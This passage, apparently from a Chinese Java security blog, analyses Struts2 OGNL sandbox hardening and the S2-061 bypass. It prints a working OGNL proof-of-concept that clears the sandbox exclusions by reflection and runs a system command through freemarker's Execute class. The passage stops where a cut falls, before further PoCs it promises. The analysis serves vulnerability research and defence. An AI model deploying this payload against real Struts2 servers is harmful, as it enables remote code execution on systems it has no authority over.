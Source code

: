 ![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296495.png)

并且重写了这几个 set 方法中，不再单纯的生成新 set 并重新引用，而是将原始的 set 加上用户输入最终处理成 `Collections.unmodifiableSet()` 再进行赋值。此时我们将不能通过 `clear()` 或者 set 方法清空其中的值。

在 ognl 3.2.10 版本之后，删除了 DefaultMemberAccess 类，同时删除了静态变量DEFAULT_MEMBER_ACCESS，并且 _memberAccess 变成了 final。SecurityMemberAccess 不再继承DefaultMemberAccess 而直接转为 MemberAccess 接口的实现。因此我们不再能使用 DEFAULT_MEMBER_ACCESS 对象覆盖 _memberAccess。

在更高版本的 ognl 中，调用方法的 invokeMethod 方法中进行了判断，禁止调用了一些经常使用的恶意黑名单方法。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296500.png)


经过上述的安全更新之后，我们在 S2-057 以及之前绕过 Struts2 的的所有想法的策略基本都被禁掉了。因此想要执行恶意 OGNL 变得越来越难。


# S2-061

S2-061 是对 S2-059 沙盒进行的绕过。

> 影响版本：Struts 2.0.0 - Struts 2.5.25
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-061
> 描述：依旧是由于标签中使用 `%{}` 导致的安全漏洞。

网络上流传了如下的 POC，说是可以用来绕过沙盒，我们来看一下：

```
%{
(#im=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bm=#im.newInstance("org.apache.commons.collections.BeanMap")).
(#bm.setBean(#stack)).
(#context=#bm.get("context")).
(#bm.setBean(#context)).
(#ma=#bm.get("memberAccess")).
(#bm.setBean(#ma)).
(#emptyset=#im.newInstance("java.util.HashSet")).
(#bm.put("excludedClasses",#emptyset)).
(#bm.put("excludedPackageNames",#emptyset)).
(#arglist=#im.newInstance("java.util.ArrayList")).
(#arglist.add("open -a Calculator.app").
(#execute=#im.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))
}
```

通过 POC 我们发现，这个利用方式是需要 Tomcat 的 InstanceManager 和 Commons-Collections 中的 BeanMap 依赖，也就是有条件的绕过，不再是像之前一样的通杀绕过沙盒。

这个版本的沙盒绕过思路，实际上是相当简单暴力，之前我们经历了若干个版本的攻与防，Struts2 官方通过黑名单、权限、类型的验证来限制我们执行恶意表达式，除了 OGNL 包里面方法调用时加的硬性限制之外，这些限制其实两个字就可以全都绕过：反射。

这就有点挖反序列化 gadget 的感觉了，POC 的具体分析[这篇文章](https://www.anquanke.com/post/id/225252)写的非常好，我这里就不再重复了，文中最后留的 POC 有下面两个：
